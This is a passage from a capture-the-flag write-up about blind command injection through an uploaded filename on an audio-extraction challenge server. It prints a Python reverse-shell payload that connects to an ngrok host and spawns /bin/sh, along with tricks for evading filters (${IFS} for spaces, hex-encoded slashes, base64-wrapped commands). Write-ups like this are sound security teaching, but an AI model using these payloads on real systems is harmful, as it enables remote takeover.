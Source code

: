 ## The Challenge
Well, if we have command injection in our filename, it probably doesn't matter what we have in our file contents-- let's try submitting an empty file with a command injection:

![](https://i.imgur.com/UgP2Eb8.png)

Cool. 

However, no matter what we make the server do, we always get the same output back to us. This is because we're not modifying the `extracted_audio.wav` file that gets sent back. Every once in a while the output would change, presumably because someone uploaded a new file.

![](https://i.imgur.com/UgP2Eb8.png)
![](https://i.imgur.com/qJkvdNU.png)

So, the challenge is that we need to perform a blind command injection without spaces, from a filename?

If it's a filename, we also can't use forward slashes, because according to wikipedia:
> In Unix-like file systems, the null character and the path separator / are prohibited.

So we'll take a payload from [revshells.com](https://revshells.com), substitute space for `${IFS}`, hex encode the forward slashes, and then it should work, right?

By testing, we can determine that `python3` is available on the server:

![](https://i.imgur.com/q8dronp.png)

But, if we try to send a revshell payload that should theoretically work, like
```bash
;python3${IFS}-c${IFS}${IFS}$'s=__import__(\'socket\').socket();s.connect((\'0.tcp.au.ngrok.io\',18904));[__import__(\'os\').dup2(s.fileno(),0),__import__(\'os\').dup2(s.fileno(),1),__import__(\'os\').dup2(s.fileno(),2)];__import__(\'pty\').spawn(\'\x2fbin\x2fsh\')';#.mp4`
```
it fails:

![](https://i.imgur.com/mnuCFYg.png)

If we attempt to submit other revshell payloads that should work, we get a similar result-- this time, by calling `eval` on a base64 encoded bash payload that we decode with command substitution:

![](https://i.imgur.com/GVvpauu.png)

This leads us to one conclusion: 

We can't establish outgoing connections.

## SOLUTION 1: Error-Based Command Injection 
Well, if we can't establish a revshell, we'll just work with the server.

Looking around, we can determine that the file `/flag.txt` must exist from the fact that attempting to access non-existent files causes an error (at this point, I just started base64 encoding every one of my commands so I wouldn't have to worry about filters): 
